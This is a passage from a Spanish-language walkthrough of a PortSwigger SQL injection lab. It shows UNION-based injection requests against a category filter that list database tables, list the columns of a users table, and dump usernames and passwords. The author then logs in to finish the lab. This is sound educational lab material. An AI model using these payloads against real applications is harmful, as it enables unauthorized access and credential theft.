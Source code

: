 Listo las bases de datos existentes

```null
GET /filter?category=Lifestyle'+union+select+table_name,NULL+from+information_schema.tables+where+table_schema%3d'public'--+- HTTP/2
```

En la respuesta se muestra el output

<img src="/img/articulos/sqli-portswigger/22.png" alt="">

Para esta tabla, listo las columnas

```null
GET /filter?category=Lifestyle'+union+select+column_name,NULL+from+information_schema.columns+where+table_schema%3d'public'+and+table_name%3d'users'--+-
```

De todas las que reporta, me quedo con los usuarios y contraseñas

<img src="/img/articulos/sqli-portswigger/23.png" alt="">

Dumpeo las credenciales para todos los usuarios

```null
GET /filter?category=Lifestyle'+union+select+username,password+from+public.users--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/24.png" alt="">

Inicio sesión y termino el laboratorio

<img src="/img/articulos/sqli-portswigger/25.png" alt="">
